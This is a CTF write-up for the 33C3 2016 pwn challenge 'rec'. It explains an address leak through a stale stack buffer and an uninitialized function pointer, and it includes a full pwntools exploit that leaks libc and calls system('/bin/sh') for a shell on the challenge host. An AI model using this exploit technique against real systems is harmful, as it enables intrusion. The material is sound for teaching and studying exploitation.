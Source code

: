 ```yaml
---
title: 33C3 CTF 2016 -- rec
layout: single
comments: true
share: true
related: true
author_profile: true
permalink: "/:title/"
date: 2016-12-30 01:38
tags:
- 33C3
- CTF
- Python
- Pwnable
categories:
- write-ups
---
```


**Category:** pwn
**Points:** 200

<!-- more -->  

32 bit ELF, with all the protection enabled.

program menu:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 
```
* Take note: input a note
* Read note: output the note
* Polish: do the `sum` operation or the elementary arithmetic (prefix expression)
* Infix: do the elementary arithmetic (infix expression)
* Reverse Polish: do the elementary arithmetic (postfix expression)
* Sign: input a number and see if it is a positive/negative number

First we found that the `Read note` function doesn't work well:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 0
Your note: 123
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 1
Your note:�VXV`�s��`XV     <-- WTF?
```

This is because the program use a stack address as the `note`'s buffer. After we take a note and leave the function, the buffer will be filled with some (useful) addresses (due to the function epilogue). And because of this, we're able to leak the stack address & text's base address.

Now it's time to try controlling the EIP. There's a program logic vulnerability in the `sign` function:
```c 
  if ( num <= 0 )
  {
    if ( num < 0 )
      v1 = (void (*)(void))puts_negative;
  }
  else
  {
    v1 = (void (*)(void))puts_positive;
  }
  v1();
```
It handles both positive & negative numbers. **But what about `0`** ?
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 5
0
[1]    40091 segmentation fault (core dumped)  ./rec
```
The reason why the program crash is because the program did not assigned a value to `v1` (since it did not handle `0`), so when it ran to line `v1()`, it will set the EIP to `0x0` and crash the program. Let's check the assembly code:
```
0x56555d3b:  mov    eax,DWORD PTR [ebp-0x20]   <-- &v1 = ebp-0x20
0x56555d3e:  call   eax
```
It shows that if we can control the value of `[ebp-0x20]`, we'll be able to control the EIP and hijack the program control flow.

I found that the stack frame of the `sign` function is "higher" (or "lesser") than the other functions. If we can't "reach that high" in other functions, we won't be able to control the function pointer. 

After done some fuzzing, I finally found that in the `Polish` function, if we do the `sum` operation and keep entering number, the program will keep pushing number to the stack, making us able to "reach the height" and control the function pointer (and the parameters !) in the `sign` function.

So here's how we gonna exploit the service:
1. Take a note & Read the note, leak the text's base address
2. Use `Polish`'s `sum` operation to control the function pointer & the function parameter. We first set the function pointer to `puts` and the parameter to `__libc_start_main@got` (there's no `.got.plt` due to the **FULL RELRO** protection)
3. Goto `sign` function and input `0`, it will call `puts(__libc_start_main@got)` and gave us the libc's base address
4. Repeat step 2, this time we set the function pointer to `system` and the parameter to "pointer to /bin/sh"
5. Goto `sign` function and input `0`, call `system("/bin/sh")` and get the shell

Here's the exploit. The libc's information are provided by [libc-database](https://github.com/niklasb/libc-database)
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import numpy

HOST = "78.46.224.74"
PORT = 4127
ELF_PATH = "./rec"
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def take_note(note):
    r.sendlineafter("> ", "0")
    r.sendlineafter("note: ", note)

def read_note():
    r.sendlineafter("> ", "1")

def polish_sum(nums):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Operator:", "S")
    for num in nums:
        print "adding:", num
        r.sendlineafter("Operand:", str(num))

    r.sendlineafter("Operand:", ".")

def sign(num):
    r.sendlineafter("> ", "5")
    r.sendline(str(num))


if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    take_note("123")
    read_note()

    r.recvuntil("note: ")
    fptr_addr = u32(r.recv(4)) - 0x350 # where the function pointer be loaded
    text_base = u32(r.recv(4)) - 0x6fb
    puts = text_base + 0x520
    lsm_got = text_base + 0x2fe0
    puts_got = text_base + 0x2fd8
    
    log.success("fptr_addr: "+hex(fptr_addr))
    log.success("text_base: "+hex(text_base))

    nums = [i for i in xrange(0x63)] + [puts, lsm_got]
    polish_sum(nums)

    sign(0) # this will call puts(lsm_got)
    lsm_addr = u32(r.recv(4))
    #########################################
    #$ ./dump libc6-i386_2.24-3ubuntu2_amd64
    #offset___libc_start_main = 0x00018180
    #offset_system = 0x0003a8b0
    #offset_str_bin_sh = 0x15cbcf
    #########################################
    system_addr = lsm_addr + 0x22730 
    bin_sh = lsm_addr + 0x144a4f 
	
    log.success("lsm: "+hex(lsm_addr))
    log.success("system: "+hex(system_addr))
    log.success("bin_sh: "+hex(bin_sh))

    nums = [i for i in xrange(0x63)] + [numpy.int32(system_addr), numpy.int32(bin_sh)]
    polish_sum(nums)
    sign(0) # this time will call system("/bin/sh")
    
    r.interactive()
```

The flag is in `/challenge/flag.txt`

flag: `33C3_L0rd_Nikon_would_l3t_u_1n`